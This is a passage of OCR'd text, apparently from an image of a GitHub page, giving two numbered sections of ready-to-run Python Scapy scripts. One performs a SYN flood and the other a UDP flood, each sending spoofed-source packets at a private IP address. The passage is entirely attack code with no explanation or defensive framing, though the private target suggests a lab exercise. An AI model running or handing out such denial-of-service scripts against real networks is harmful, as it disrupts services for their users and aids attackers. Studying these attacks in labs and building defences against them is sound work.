 #### 4. SYN Flood

```python
# save as: syn_flood.py
from scapy.all import *
import random

target = "192.168.100.1"
target_port = 80
iface = "Ethernet"

print("Starting SYN flood...")

for i in range(1000):
    # Random source IP and port
    src_ip = f"192.168.{random.randint(1,254)}.{random.randint(1,254)}"
    src_port = random.randint(1024, 65535)
    
    # Create SYN packet
    packet = IP(src=src_ip, dst=target)/TCP(sport=src_port, dport=target_port, flags="S")
    send(packet, iface=iface, verbose=0)
    
    if (i+1) % 100 == 0:
        print(f"Sent {i+1} SYN packets")
    
    time.sleep(0.01)

print("Done!")
```

#### 5. UDP Flood

```python
# save as: udp_flood.py
from scapy.all import *
import random

target = "192.168.100.1"
iface = "Ethernet"

print("Starting UDP flood...")

for i in range(1000):
    # Random source IP and ports
    src_ip = f"192.168.{random.randint(1,254)}.{random.randint(1,254)}"
    dst_port = random.randint(1, 65535)
    
    # Random payload
    payload = ''.join(random.choices('ABCDEFGHIJKLMNOPQRSTUVWXYZ', k=100))
    
    # Create UDP packet
    packet = IP(src=src_ip, dst=target)/UDP(dport=dst_port)/Raw(load=payload)
    send(packet, iface=iface, verbose=0)
    
    if (i+1) % 100 == 0:
        print(f"Sent {i+1} UDP packets")

print("Done!")
```
